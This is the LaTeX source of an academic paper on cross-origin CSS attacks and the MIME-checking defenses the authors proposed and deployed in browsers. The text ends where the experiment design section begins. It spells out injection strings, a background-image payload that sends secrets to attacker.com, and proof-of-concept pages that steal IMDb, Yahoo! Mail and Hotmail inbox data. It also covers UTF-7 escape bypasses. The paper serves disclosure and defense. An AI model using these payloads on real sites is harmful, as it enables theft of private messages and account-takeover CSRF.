\documentclass{acm_proc_article-sp}
\usepackage{url,verbatim}

\begin{document}

\title{Protecting Browsers from Cross-Origin CSS Attacks}
\numberofauthors{3}
\author{
\alignauthor
Chris Evans\\
      \affaddr{Google}\\
      \affaddr{cevans@google.com}
\alignauthor
Lin-Shung Huang\\
      \affaddr{Carnegie Mellon University}\\
      \affaddr{linshung.huang@sv.cmu.edu}
\and
\alignauthor
Collin Jackson\\
      \affaddr{Carnegie Mellon University}\\
      \affaddr{collin.jackson@sv.cmu.edu}
\alignauthor
Zack Weinberg\\
      \affaddr{Mozilla}\\
      \affaddr{zweinberg@mozilla.com}
}

\newcommand{\todo}[1]{\textbf{[TODO: #1]}}

\maketitle
\begin{abstract}
Cross-origin CSS attacks allow an attacker's web site to steal confidential information from another site, hijacking a user's existing authenticated session and bypassing any cross-site request forgery defenses. The attack leverages an exception in the browser's security policy,
using style sheet import to read HTML content. We show how to conduct the attack in all browsers, even if JavaScript is disabled, and propose client-side defenses that still allow the vast majority of web sites to function normally. We propose, implement, and deploy defenses in Firefox, Google Chrome, and Safari. Our defense proposal has also been adopted in Opera.
\end{abstract}

\category{K.6.5}{Management of Computing and Information Systems}{Security and Protection}

\terms{Security}

\keywords{CSS, MIME, Same-Origin Policy}

\section{Introduction}

\begin{figure}
\centering

\includegraphics[width=\linewidth]{injection.jpg}
\caption{Cross-Origin CSS Attack}
\label{figure:injection}
\end{figure}

The Web is rapidly becoming the single stop for all of our computing needs,
including information access, personal communications, office tasks, and
e-commerce. Faster, more standards-compliant browsers and improved development\linebreak
frameworks have made the Web the platform of choice platform for delivering
rich, interactive experiences. Applications like Gmail and Facebook are
rapidly supplanting traditional client software.

One of the key features that has made the Web so successful is the same-origin
policy that allows users to safely interact with software written by anyone
--- even someone they do not trust. The browser limits interactions between
sites by compartmentalizing them into ``origins'' that cannot easily read each
other's sensitive data~\cite{mozillasameorigin}. However, browsers have wisely
added exceptions where necessary to enable powerful cross-origin interactions.
The cross-origin hyperlink is the foundation that allowed search engines and
social media to revolutionize news, communication, and e-commerce.
Cross-origin images have allowed web applications to improve performance and
reduce costs by outsourcing their infrastructure to content distribution
networks. Cross-origin plugin embedding took this a step further by making the
wildly popular YouTube video service available to bloggers. Cross-origin
script import has also played a key role in the success of the Web, allowing
publishers to optimize and monetize their content with tools like Google
Analytics and Google AdSense.

To keep web sites safe in the midst of all these cross-origin interactions,
browsers must determine which web content requires enhanced privileges and/or
confidentiality~\cite{mashupos}. HTML documents have the full privileges of
the origin that served them and cannot be read by other origins, whereas
library resources such as scripts and style sheets have no origin privileges
but can be imported into any origin. A critical and often-overlooked aspect of
the browser same-origin policy is the error-prone process of assigning content types to web resources. Previously, Barth et al showed how a web site could be
compromised if a browser mistakenly handled a non-HTML resource as
HTML~\cite{securecontentsniffing}. In this paper, we discuss the opposite
scenario: a web site can be compromised if a browser mistakenly handles an
HTML resource as a style sheet library.

Style sheets are used to improve the appearance of pages with
color, layout, and more. They make the Web an efficient and attractive medium
for presenting information. Because style sheets can be imported across
origins just like scripts and images, they constitute an exception to the
browser same-origin policy that prohibits sites from reading content loaded
from other origins. Browser vendors allow this exception because they assume
that sites will not transmit confidential information in style sheet format.

Browser vendors and standards bodies continue to push the limits of what is
possible with style sheets. The CSS specification~\cite{cssspec} introduces
new style sheet directives and even new syntax from time to time. All versions
of CSS, starting from CSS1, have required that user agents ignore certain
types of invalid style directives~\cite{syndata}. This essential property of style sheets
provides forward-compatibility with future versions and allows experimental
vendor-proprietary extensions.

Unfortunately, this forwards-compatible parsing behavior\linebreak leads to a critical
security problem when combined with the browser same-origin policy. A malicious
web site can load HTML documents as style sheets and extract information that
is parsed by the browser's error-tolerant CSS parsing algorithm. This
technique was first demonstrated by a Japanese blogger~\cite{cssxss} to
circumvent a Japanese social networking site's cross-site request forgery
defenses in Internet Explorer. In this paper, we describe a general form of
the attack that works in all browsers. We show that all browsers have APIs
that can be used to extract secrets from the style of the current document,
even if JavaScript is disabled by a security tool such as NoScript. We propose
and implement new browser CSS handling behavior to prevent style sheets from
being used to compromise web sites. We surveyed the top 100,000 web sites to
determine the compatibility impact of our proposal. Finding the compatibility
cost to be acceptable, we deployed our proposal; the new behavior has now been
adopted by Firefox, Google Chrome, Safari, and Opera.

\paragraph{Organization}
The rest of this paper is organized as follows. Section~\ref{sec:threatmodel} presents a threat model for cross-origin CSS attacks.
Section~\ref{sec:attacks} describes the attack in detail. Section~\ref{sec:defenses} proposes and evaluates defenses.
Section~\ref{sec:relatedwork} surveys related work.
Section~\ref{sec:conclusion} concludes.

% Content sniffing XSS~\cite{securecontentsniffing}
% 
% JavaScript hijacking~\cite{jshijacking}

% In the cross-origin CSS attack, the attacker injects CSS strings into the target domain that contains the secret content, instructs the victim's browser to import and parse the target document as a style sheet, and then exports the secret string from the computed style properties to the attacker.
% 
% ?? mixi.jp post\_key theft

\section{Threat Model} \label{sec:threatmodel}
%We define a precise threat model, the web attacker, for reasoning the
%cross-origin CSS attack. We assume that the attacker's goal is to steal a
%victim user's secret content on an honest web site from another domain.

The threat model for cross-origin CSS attacks is a ``web
attacker''~\cite{jackson09thesis}, a malicious principal who owns a domain
name and operates a web server. To study the browser's defense mechanisms, we
assume that the victim user visits the attacker's web site. In addition, the
web attacker is given the ability to inject semi-arbitrary strings into the
target domain.
% 
% We do not require social engineering, cross-site scripting vulnerabilities, and we do not assume that the victim's machine has been compromised by malicious software;
% There are a number of stronger threat models that could  threats that we do not consider in this paper, such as phishing, DNS rebinding, and XSS.
% (more description...?)
% T

\paragraph{Attacker Abilities}
The web attacker can send and receive network messages over network protocols of the attacker's choice, but only from its own machines. Typically, the web attacker operates at least one machine as an HTTP server, which we refer to as \texttt{attacker.com}. The web attacker has no control over the victim's network connections. In particular, the web attacker cannot eavesdrop on unencrypted connections and steal session identifiers to hijack the victim's authenticated user session. Neither can the web attacker spoof network frames and impersonate another user to an honest web site.
The web attacker is also incapable of installing malicious software on the victim's machine; otherwise, the malware could replace the browser and bypass any browser-based defenses.

\paragraph{User Behavior}
We assume that the user visits the attacker's web site with a popular browser. In practice, this assumption can be supported by several techniques for attacking users, e.g. buying web advertisements or sending bulk e-mail to encourage visitors. By visiting \texttt{attacker.com}, the attacker can instruct the victim's browser to fetch external style sheets and also export data to remote servers. As long as the victim's session with an honest web site haven't expired, the attacker can instruct the victim's browser to issue requests with the victim's cookies.
We do not assume that the victim behaves discloses any sensitive information
while on the attacker's site; merely rendering the attacker's web content
is sufficient.

\paragraph{Target Site Behavior}
We assume that the attacker can inject semi-arbitrary strings into a target
domain that contains the secret content, which we refer to as
\texttt{target.com}. In practice, there are various methods to inject strings
into the target domain, e.g. reflection of URL parameters. Specifically, we
are interested in sites that allow injection of strings that can be
interpreted as CSS syntax tokens, which are more common than sites that allow
injection of arbitrary HTML and JavaScript Sites that allow injection of
arbitrary HTML and JavaScript are already vulnerable to cross-site scripting
attacks.

\section{Cross-Origin CSS Attacks} \label{sec:attacks}
In this section, we introduce cross-origin CSS attacks. First, we provide some
relevant background information on browser behavior. Next, we describe in
detail the steps of the attack. Then, we discuss the restrictions that make
constructing this attack and suggest general areas that are exploitable.
Finally, we demonstrate attacks against several popular web applications as a proof of concept.

\subsection{Background}

In this section, we describe three aspects of browser behavior that are required for cross-origin CSS attacks: session authentication, cross-origin resources, and error-tolerant style sheet parsing.

\subsubsection{Session Authentication}
Web applications that handle sensitive data typically use client-side state to
main a distinct ``session'' for each visitor. HTTP cookies~\cite{rfc2109,
httpstate} are commonly used by web application to manage this state. HTTP
basic and digest authentication~\cite{rfc2617} can also be used to maintain
client sessions. Once a user has logged in to a web site, the browser ensures
that subsequent requests to that site will also be part of the same
authenticated session. Since the server knows who is making a request, it can
reply with confidential HTML documents intended only for that specific user.

\subsubsection{Cross-Origin Resources}
Browsers allow web pages to reference to cross-origin resources, enabling them to send requests to other origins. These references may take the form of a library import (scripts, style sheets) or navigation to a new document (hyperlinks, forms). The requests for cross-origin resources carry the cookies and HTTP authentication credentials of the site receiving the request, not the site that is making the request. Thus, it is important that the server receiving a cross-origin request ensure that the request is actually authorized by the user before making any changes to the user's account. Web applications typically include a secret token in the request to prevent such cross-origin request forgery (CSRF) attacks~\cite{csrf}. It is assumed that the attacker will not be able to learn the value of this secret token because the browser prevents the attacker from reading documents that are loaded across origins.

%\todo{Collin: Finish this section}

% Web browsers permit a variety of 
% If a page on \url{http://a.com} provides a hyperlink, form, image, script, stylesheet, or embedded plugin that requests a resource on \url{http://b.com}.
% 
% 
% Note that browsers always sends the user's cookie when it loads any referenced style sheets, including cross-origin CSS. If a user was logged into the \texttt{target.com} while visiting the evil page, the browser would send the user's authentication cookie on all requests to \texttt{target.com} and be considered as valid authenticated requests. This behavior exploits cookie-authenticated web sites and potentially leaks the user's sensitive information in the server's response.
% 
% 
% The browser same-origin policy is intended to prevent other origins from reading these documents.
% 
% Cross-site request forgery attacks abuse this behavior by sending cross-origin requests to the server that were not initiated by the user. A typical defense
% 
% When a web

% Most often, state is handled using the HTTP cookie mechanism, enables web
% sites to authenticate clients and maintain client states, allowing web sites
% to not only serve static content but customize the content and appearance for
% each session user.
% 

\subsubsection{Cascading Style Sheets} \label{sec:lax}
Error handling rules for style sheets are designed for forward compatibility
with future extensions~\cite{syndata}. These rules are designed to tolerate errors and recover at the next valid CSS rule. The parsing behaviors that most affect cross-origin CSS attacks are as follows:

\begin{itemize}
\item Single- and double-quoted strings and /* */ comments act like they
do in JavaScript. In all browsers except for Internet Explorer, multiline strings are not allowed. CSS does not have // comments.
\item Braces, parentheses, and brackets must be properly balanced and nested at all times. 
\item Unlike HTML, angle brackets are {\em not} expected to balance or nest. 
\item At top level (not inside braces) HTML comment delimiters are ignored.
There is no attempt to balance them.
\item The end of a style sheet closes all open constructs {\em without error}.  \end{itemize}

% \subsubsection{MIME Types}
% The HTTP \verb|Content-Type| header indicates the type of the content that is transmitted using Multipurpose Internet Mail Extensions (MIME)~\cite{mime} types such as \texttt{text/plain} for plain text and \texttt{image/jpeg} for JPEG images. A typical \verb|Content-Type| header is the following:
% \begin{verbatim}
% Content-Type: text/html; charset=utf-8
% \end{verbatim}
% Browsers use MIME types to determine how to handle the contents of HTTP responses. However, many misconfigured web servers fail to provide the correct MIME type of their resources.
% % Due to web site compatibility concerns, modern browsers use content-sniffing
% % algorithms~\cite{securecontentsniffing} to guess the correct MIME type by
% % inspecting the contents of HTTP responses. 
% % Content-sniffing algorithms can override the provided MIME type and file
% % extension of the document. Unfortunately, this quirk introduces chameleon
% % documents, in which a document conforms to a benign file format (such as
% % PostScript) and contains malicious HTML.

% \subsection{Background}
% In this section, we provide background information about Cascading Style Sheets (CSS), the same-origin policy (SOP), and MIME types.
% 
% \subsubsection{Cascading Style Sheets}
% Cascading Style Sheets~\cite{css} is a mechanism that lets web developers control the visual appearance of web documents using style sheet language. The design of CSS enables separation of document content from the visual appearance, including layouts, colors, and fonts. This allows web sites to adjusting its appearance, e.g. switching on-screen views to printable views, without requiring modifications to the document. Furthermore, documents are allowed to import external style sheets and let third parties to control a subset of the CSS rules. This feature allows web sites to share style sheets across a number of documents.
% 
% \paragraph{Lax Parsing}
% In modern browsers, the CSS parser is actually very lax. The CSS parser will skip over any amount of invalid syntax in the style sheet until it finds the next valid rule. This is unlike the JavaScript parser that will abort on the first syntax error. A lax CSS parser gives the browser better compatibility for supporting misconfigured web sites, but unfortunately opens opportunities to attackers and enables the cross-origin CSS attack in this paper.
% 
% \todo{Chris' comment: I think they are intending to be forward-compatible with brand new CSS syntax too. There is some small interpretation of invalid syntax: careful track seems to be kept regarding opened brackets. I think this includes various bracket types -- but of course may be browser dependent. Any CSS injection point may have to close an arbitrary number of these brackets: of the correct type in the correct order!}
% 
% \subsubsection{Same-Origin Policy}
% The same-origin policy~\cite{mozillasameorigin} is the main security mechanism in modern browsers that provides isolation of contents between unrelated web sites. The same-origin policy restricts contents to access resources only from the same origin, which applies to scripting interactions, i.e. accessing the Document Object Model (DOM)~\cite{dom} and transferring data using the \texttt{XMLHttpRequest} API. In SOP, the origin of a resource is defined as the protocol, host, and port. The same-origin policy does not apply to fetching and executing remote libraries, including scripts and style sheets, from a different origin.
% 

\subsection{Attack Steps}
In a cross-origin CSS attack, the attacker's main objective is to steal the victim's secret content on an honest web site from a different domain. The attacker is most likely interested in stealing sensitive information in a cookie-authenticated web page, or preferably a secret CSRF token hidden in the document that may allow the attacker to make requests on the user's behalf. In order to steal content from a different origin, the attacker loads the target document from an honest web site as a cross-origin style sheet reference. The attacker must ensure that portions of the portions of the target document conform to CSS parser rules. As soon as the victim visits the attacker's evil page, the cross-origin data is imported as style properties and stolen. The steps of the cross-origin CSS attack is shown in Figure~\ref{figure:steps}. To describe the cross-origin CSS attack in detail, we decompose the attack into three main steps: CSS string injection, cross-origin CSS import, and confidential data extraction.

\begin{figure*}
\centering

\includegraphics[width=\linewidth]{steps.jpg}
\caption{Steps of the Cross-Origin CSS Attack}
\label{figure:steps}
\end{figure*}

\subsubsection{CSS String Injection}
One might expect that a non-CSS document would contain numerous syntax errors would fail to parse as a valid style sheet. However, due to the error-tolerant CSS parsing behavior described in Section~\ref{sec:lax}, portions of a non-CSS document with valid CSS syntax can still be successfully parsed and recognized as style sheet rules. Thus, it is sufficient for the attacker to inject strings into the target document that will form a valid style rule. In practice, there are several methods that may allow a web attacker to inject strings into the target domain, e.g. reflection of user-controlled strings in URL parameters. 

We illustrate an example of CSS string injection in Figure~\ref{figure:injection}. Suppose that there is a sensitive content, represented with the string ``SECRET'', in an HTML document on an honest web site that the attacker wants to steal. Assuming that the attacker has sufficient influence over the web page to control the text preceding and succeeding the secret string, the CSS string injection can be constructed based on common CSS properties that have string type values, i.e. \texttt{font-family}, \texttt{background-image}, and \texttt{list-style-image}. Given the ability to inject arbitrary strings into the target domain, the HTML document can be crafted to contain a CSS property \texttt{font-family} as the following:
\begin{itemize}
\item CSS property opening string: \verb|{}BODY{font-family:"|
\item CSS property termination string: \verb|"}|
\item Target document: \verb|<HTML>..SECRET..</HTML>|
\item Injected document: \\
\verb|<HTML>..{}BODY{font-family:"SECRET"}..</HTML>|
\end{itemize}
The injected HTML document will appear to the CSS parser as containing a valid CSS rule. The fonts of the attacker's page will be styled with a font-family specified as the stolen string ``SECRET''. Note that the seemingly redundant pair of brackets in the injection string re-syncs the CSS parser to make sure that the evil CSS rule parses properly. All the other non-CSS text in the document are skipped by the CSS parser, thus will not effect the parsing of the evil CSS rule. Once the injected document is loaded, the attacker can easily steal the secret string from the computed \texttt{font-family} style of the attacker's page.

\subsubsection{Cross-Origin CSS Import}
When the user visits \texttt{attacker.com}, the attacker's evil page instructs the victim's browser to fetch and load the injected document as a style sheet. Documents can import external style sheets from remote servers by using the HTML~\cite{html} link tag:
\begin{verbatim}
<LINK REL="stylesheet" HREF="http://target.com">
\end{verbatim}
Alternatively, style sheets can be imported included using the CSS ``import'' directive:
\begin{verbatim}
<STYLE>@import url(http://target.com);</STYLE>
\end{verbatim}

\subsubsection{Confidential Data Extraction}\label{sec:extraction}
The final step for the attacker is to extract the confidential data from the cross-origin imported styles in the victim's browser. The extraction methods are summarized in Table~\ref{table:DOM}. With JavaScript enabled, the attacker's evil page may read the full CSS text via the Cascading Style Sheets Object Model (CSSOM) or the computed styles of specific CSS properties via DOM. Furthermore, a variant of the cross-origin CSS attack can extract the stolen data even with JavaScript disabled.

\paragraph{CSSOM}
One method of confidential data extraction using JavaScript is to access the full CSS text via CSSOM. WebKit-based browsers, i.e. Safari and Google Chrome, allow access to the full CSS text of style sheets, including CSS rules loaded from cross-origin (without comments, thankfully). The attacker could read the raw text of cross-origin CSS via \texttt{document.styleSheets[]}\texttt{.cssRules[]}\texttt{.cssText} and also \texttt{window.getMatchedCSSRules().cssText}. This behavior violates the same-origin policy and can cause cross-origin data leak in pages with semi-valid CSS constructs. Other browsers only permit read access to the raw text of style sheets under restricted conditions. Internet Explorer allows access to cross-origin CSS raw text via \texttt{document.styleSheets[]} \texttt{.rules[]}\texttt{.style}\texttt{.cssText} only if the MIME type is correct. Firefox and Opera only allows access to CSS raw text for style sheets loaded from same-origin.

\paragraph{Computed Style}
Another method of data extraction using JavaScript is to access the computed styles via DOM. All major browsers support using JavaScript to read computed styles, even loaded from cross-origin, by calling the \texttt{window.getComputedStyle} method or retrieving the\linebreak \texttt{currentStyle} object. Given that the style name and property name is known, the attacker can extract the confidential data from the injected style property. Even if access to raw CSS text is blocked, the ability to read cross-origin loaded CSS styles is enough to construct serious attacks.

\begin{table}
\centering
\begin{tabular}{|c|c|c|c|c|c|} \hline
Methods&IE&FF&Opera&Safari&Chrome\\ \hline
\texttt{styleSheets[]}&&&&\checkmark&\checkmark\\
\texttt{.cssRules[].cssText}&&&&&\\ \hline
\texttt{getMatchedCSSRules()}&&&&\checkmark&\checkmark\\
\texttt{.cssText}&&&&&\\ \hline
\texttt{getComputedStyle}&&\checkmark&\checkmark&\checkmark&\checkmark\\ \hline
\texttt{currentStyle}&\checkmark&&\checkmark&&\\
\hline
%\texttt{rules[].style.cssText}&\checkmark&&&\checkmark&\checkmark\\ \hline
\texttt{background-image}&\checkmark&\checkmark&\checkmark&\checkmark&\checkmark\\
\hline\end{tabular}
\caption{Methods of Extracting Information from Cross-Origin Style Sheets}
\label{table:DOM}
\end{table}

After extracting the sensitive content hidden in the style properties, the attacker may send the secret data to his own evil servers or even mount CSRF attacks. There are various well-known methods for the attacker's web page to send information back to the attacker without any user interaction. For example, the attacker could use JavaScript to send data through an HTML hidden form or through the \texttt{XMLHttpRequest} API.

\paragraph{Without JavaScript}
Another method is available to exploit users that have disabled JavaScript in their browsers. This might occur if the user has installed the popular NoScript security tool~\cite{noscript}. The attacker can extract data without using JavaScript by injecting the CSS \texttt{background-image} property string as the following:
\begin{verbatim}
<HTML>..{} BODY { background-image: url(http://att
acker.com/?SECRET); }..</HTML>
\end{verbatim}
Using this method, the secret string is appended to the path or query string of the attacker's server URL. Therefore, the background of the attacker's page will be styled with a background image loaded from an URL, the path of which contains stolen data. The stolen data can then be harvested from the attacker's web server logs. If the stolen data contains a CSRF defense token the attacker can launch a CSRF attack later in the same session, since cross-origin forms do not require JavaScript.

\subsection{Attack Limitations}
There are a few restrictions that can hinder the attacker's ability to conduct a cross-origin CSS attack.

\subsubsection{Insufficient Injection Points}
The first and most crucial step of the cross-origin CSS attack is to contain the secret data into a CSS property string. In order for the CSS parser to properly parse the evil CSS rule, certain symbols must be inserted at the beginning and at the end of the stolen string. In general, the attacker must have sufficient influence over the target document to control two injection points to insert the CSS property opening strings and termination strings, respectively. Typically, social web sites are relatively more susceptible to this attack since the pages often contain user-controlled strings such as comments on photos. For some web sites, a second injection is not required because the termination string happens to exist later in the document. This is possible since the termination string can be as short as just a quotation mark and an ending bracket. 

\subsubsection{Character Escapes} \label{sec:escapes}
In the CSS specification~\cite{css}, strings can either be written with double quotes or with single quotes. Double quotes cannot occur inside double quotes, and the same applies for single quotes. Therefore, the attacker has the choice to inject either single or double quotes depending on the occurrence of quotes in the secret data. In a context where both quotes are escaped, it becomes more difficult to inject a CSS string. However, a variation of the attackcan bypass this restriction by injecting the CSS property \texttt{background-image}. For the \texttt{background-image} property, the URL value is written with the functional notation \texttt{url()}, which does not require the use of single or double quotes around the URL string itself. The CSS specification does define that certain characters must be escaped in an unquoted URL, e.g. parentheses, commas, white spaces, single quotes and double quotes. However, in Internet Explorer, the CSS parser does not require any of these characters to be escaped in an unquoted URL and will parse until it encounters a closing parentheses and a semicolon.

\paragraph{Forcing UTF-7}
The requirement for quotes not to get escaped can sometimes be bypassed in browsers that support UTF-7 encoding, including Firefox and Safari. If the target web sites fails to specify a character set in the HTTP Content-Type header, the attacker's evil page can force the remote resource to be parsed as UTF-7 encoding as the following:
\begin{verbatim}
<LINK REL="stylesheet" HREF="http://target.com"
CHARSET="utf-7">
\end{verbatim}
By forcing UTF7, either a single or double quote may be injected by rendering it in the UTF-7 character set, i.e. ``\texttt{+ACc-}'' for single quote and ``\texttt{+ACI-}'' for double quote. This will cause the injection to survive any output escaping of the web application. A significant number of web sites actually do not specify character sets in their HTTP responses; we found that 22 out of the top 100 web sites ranked by Alexa~\cite{alexa} did not specify character sets via HTTP header. Some web sites specify the Content-Type information using meta tags with the \texttt{http-equiv} attribute in the HTML head element as the following:
\begin{verbatim}
<META HTTP-EQUIV="Content-Type" CONTENT="text/html;
charset=utf-8">
\end{verbatim}
Browsers may use meta tags to refine the information provided by the actual headers, but can also ignore it. If a document declares a character set in a meta tag but not in the response header, the referring page can override the character set with the \texttt{charset} attribute in the parent link tag. Thus, we recommend that sites always use HTTP headers to specify the MIME type and character set of documents.

\subsubsection{Newlines}
In CSS, a string cannot directly contain a newline. To include a newline in a string, the line feed character must be escaped. Therefore, another barrier of this attack is that any un-escaped newline in the stolen string will break the CSS parsing. This is a very common condition in many web pages, which avoids potentially serious attacks. However, many rich-functionality web sites are often exploitable due to serving cookie-authenticated URLs with JSON or XML responses that commonly lack newlines. Some web sites even allow users to control the formatting of server responses, e.g. disabling pretty printing, which may be extremely dangerous.
\paragraph{Internet Explorer}
The CSS parser in the Internet Explorer accepts both newlines in CSS strings and newlines in unquoted URL strings, regardless of whether they are escaped or not. This behavior makes attacks significantly easier to construct in Internet Explorer.

\subsection{Example Attacks}
In this section, we present several examples of the cross-origin CSS attack on popular web sites with the Internet Explorer browser. First we describe an attack on a popular movie database web site to steal private messages of registered users. Then we describe using e-mail subject string injection on popular web mail applications to steal the subjects of received e-mails and even secret CSRF tokens.

\paragraph{IMDb} IMDb is a popular online database of movies and related information, which allows users to rate films and make posts on message boards. Some of the features for a registered account include adding users to their friends list and sending private messages to other users. Targeting the user's private messaging page, the attacker can mount an attack on the victim's inbox and steal the subject and body of all preceding private messages with the following steps:
\begin{enumerate}
\item{The attacker sends an evil private message to the victim's account with a CSS property opening string in the subject, such as ``\texttt{\{\}body\{font-family:'}''.}
\item{The victim visits \texttt{attacker.com}, which triggers the cross-origin CSS attack and steals content from the victim's private messaging inbox.}
\end{enumerate}
We chose to use single quotes for CSS property injection to avoid string termination due to the existance of double quotes in the page source. The attacker's evil page references the URL of victim's private messaging page as a CSS resource and extracts the stolen data from the computed \texttt{font-family} style using JavaScript, as the following:
\begin{verbatim}
<HTML>
<HEAD>
<LINK REL="stylesheet" HREF="http://www.imdb.com/
user/ur12345678/boards/pm/">
<SCRIPT>
function steal() {
alert(document.body.currentStyle['fontFamily']);
}
</SCRIPT>
</HEAD>
<BODY onLoad="steal()">
</BODY>
</HTML>
\end{verbatim}
Note that the target URL contains the victim's user number ``ur12345678'', which is public and can be simply fetched from any user profile link on the message board. In this example, a single injection point is sufficient due to the highly propable existance of the termination string. Such a vulnerability may be widespread on many low security sites.

\paragraph{Yahoo! Mail} Yahoo! Mail is a free web mail service that lets users send and receive e-mails using any popular web browser with cookies and JavaScript enabled. After a user signs in with a valid account, the web site will authenticate the user with browser session cookies for as long as two weeks without signing out. Targeting the web mail home page, the attacker can mount an attack on victims that are signed into their accounts with the following steps:
\begin{enumerate}
\item{The attacker sends an evil e-mail to the victim's account with a CSS property termination string in the subject, such as ``\texttt{);\}}''.}
\item{The attacker waits for sensitive e-mails to fill the victim's inbox.}
\item{The attacker sends another evil e-mail to the victim's account with a CSS property opening string in the subject, such as ``\texttt{\{\}body\{background-image:url(}''.}
\item{The victim visits \texttt{attacker.com}, which triggers the cross-origin CSS attack and steals secret data from the victim's inbox.}
\end{enumerate}
The attacker's evil page references the URL of web mail home page as a CSS resource and extracts the stolen data from the computed \texttt{background-image} style using JavaScript, as the following:
\begin{verbatim}
<HTML>
<HEAD>
<LINK REL="stylesheet" HREF="http://mail.yahoo.com">
<SCRIPT>
function steal() {
alert(document.body.currentStyle['backgroundImage']);
}
</SCRIPT>
</HEAD>
<BODY onLoad="steal()">
</BODY>
</HTML>
\end{verbatim}
In this example, the victim's browser will popup an alert message that contains some stolen cross-origin text. Within the stolen text contains the subjects, senders and the ``mid'' value for all e-mails received between the two evil e-mails were delivered to the victim. The ``mid'' value would appear to be an unguessable key to an attacker. Accordingly, it is reasonable for the mail application to rely on it as a secret token to defend CSRF attacks. This is indeed the case for the e-mail deletion operation, which relies on ``mid'' as a CSRF defense token. The attacker can thus delete emails from the victim's email account using CSRF after the cross-origin CSS attack.

\paragraph{Hotmail}
We found that Windows Live Hotmail was vulnerable to a nearly identical attack as Yahoo! Mail. By sending two evil e-mails to the victim's Hotmail account and referencing the mobile URL ``\texttt{http://mail.live.com/m/}'' as CSS resource, an attacker can read secret messages and steal secret tokens.
The existence of nearly identical attacks demonstrates the general nature of the cross-origin CSS vulnerabilities. We expect that many social networking sites are vulnerable to variants of this attack as well, because the attacker can leave arbitrary text comments that are rendered somewhere on the victim's view of the page.

\section{Defenses} \label{sec:defenses}
In this section, we describe the defenses against cross-origin CSS attacks.
First, we propose to apply stricter browser requirements for loading
cross-origin CSS references. Next, we present an evaluation of web site
compatibility for our proposal. Finally, we state the progress of adoption for
our proposal in major browsers and discuss the remaining issues.

\subsection{Proposal: Restrictions on Cross-Origin CSS}
To prevent cross-origin
CSS attacks, we propose that browsers should apply stricter checking when
loading cross-origin CSS files. In fact, most modern browsers already have a
standard-compliant mode that requires the correct MIME type when loading CSS
files. However, this mode is only triggered when the web developer declares a
document type definition (DTD), e.g. \verb|<!DOCTYPE html>|, in the referring
document. When no DTD is present, the browser renders the document in
``quirks'' mode for better backward-compatibility. Of course, in a
cross-origin CSS attack, the attacker is perfectly willing to omit the DTD in
order to trigger quirks mode.

Our proposed defense, therefore, is to enforce MIME type checking for
cross-origin CSS files, even in quirks mode. We describe two variants on this
proposal: a strict approach that does not allow any MIME type mismatches, and
a conservative approach that maximizes web site compatibility by allowing
apparently benign MIME type mismatches.

\subsubsection{Strict Approach}
In the cross-origin CSS attack, the attacker's evil web page confuses the victim's browser to parse the injected target document as a style sheet. If browsers strictly required external style sheets to specify the correct MIME type, which is \texttt{text/css}, the evil web page would not be able to load any crafted non-CSS document. One effective solution is to let browsers always check the MIME type for cross-origin CSS references and block any CSS load with an invalid MIME type. When strict MIME type checking is enforced, at least for cross-origin CSS references (if not globally), browsers would be able to protect target non-CSS documents from being stolen.

The major concern of the strict approach is that any misconfigured cross-origin resources that fail to provide valid MIME types would be blocked. Strict MIME type checking relies on web developers to correctly deploy their web sites and provide valid MIME types. Unless every web developer properly configures their servers to send the correct Content-Type response header, the strict approach will inevitably introduce false positives and cause CSS failure on web sites. Expectedly, browser vendors would tend to resist changes that would cause web site breakage and lose its users.

\subsubsection{Conservative Approach}
To address web site compatibility concerns, we propose a conservative approach that blocks most attacks while tolerating some common MIME type misconfigurations. In order to reduce false positives in the strict MIME type approach, an additional level of checking is applied to cross-origin CSS loads that have invalid MIME types. When a valid MIME type is not provided, the browser will try to parse the cross-origin CSS but rejects the style sheet upon encountering the first syntax error. This simple parsing test helps to determine whether the imported CSS file is an injected target document. Therefore, the devised solution blocks a CSS load only when all of the following conditions are met:
\begin{itemize}
\item{The CSS load is a cross-origin reference.}
\item{The CSS load has an invalid MIME type for CSS.}
\item{The alleged CSS file does not start with a syntactically valid CSS construct.}
\end{itemize}
The above rules will block most cross-origin CSS attacks because the target documents that are not CSS files have headers that will cause a broken first CSS descriptor, e.g. HTML or XML headers. We also assume that a legitimate CSS file will unlikely have a syntax error at the beginning of the file and a broken MIME type, thus this heuristic should not break most existing sites. Only CSS files loaded from cross-origin with invalid MIME type that starts with malformed syntax is determined as an attacked document and rejected.

\subsubsection{Experiment}
To evaluate the compatibility of our proposed defense of stricter cross-origin CSS loading, we conducted an experiment to measure how often web servers fail to provide the correct MIME type for CSS files and whether these CSS files are well-formed when loaded cross-origin.

\paragraph{Design}
